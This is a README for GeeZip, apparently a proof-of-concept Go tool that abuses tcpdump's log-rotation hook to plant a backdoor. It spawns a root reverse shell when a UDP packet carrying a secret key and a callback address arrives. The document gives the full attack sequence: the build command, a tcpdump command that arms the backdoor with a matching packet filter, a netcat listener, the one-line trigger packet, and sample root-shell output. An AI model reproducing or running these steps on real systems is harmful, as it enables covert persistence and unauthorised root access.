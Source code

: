# GeeZip

This is a proof of concept tool for abusing the logrotate functionality in tcpdump to execute a remote root shell.

## Building

Download and build geezip:

```
$ go get github.com/klustic/geezip
```

## Usage
GeeZip is designed to execute after a specially crafted UDP packet is received. The UDP packet must be in the following format:

```
+========+====+==+
|   K    | IP |P |
+========+====+==+

Where:
K : 8-byte sequence representing a secret key
IP: 4-byte sequence representing the callback IP
P : 2-byte sequence representing the callback port (big-endian)
```

On the commandline, run this command to prepare your tcpdump backdoor:
```
[root]# tcpdump -Uw output.pcap -z geezip -c 1 -G1 -i lo0 "udp[8:4]=0x6d616769 && udp[12:4]=0x636b6579"
```

On another commandline, prepare netcat to catch the reverse shell:
```
[user]$ nc -nvvl 8000
```

Finally, execute this from a third commandline to trigger the logrotate:
```
[user]$ echo -n 'magickey\x7f\x00\x00\x01\x1f\x40' | nc -u 127.0.0.1 53
```

You should see output from the `id` command on your netcat terminal, and should be able to interact with the backdoor:
```
[user]$ nc -nvvl 8000
Received trigger packet with key=6d616769636b6579, spawning a shell...
bash: no job control in this shell
bash-3.2# id
id
uid=0(root) gid=0(wheel) groups=0(wheel),...
bash-3.2#
```

## Thanks
This uses Google's epic [gopacket project](https://github.com/google/gopacket)
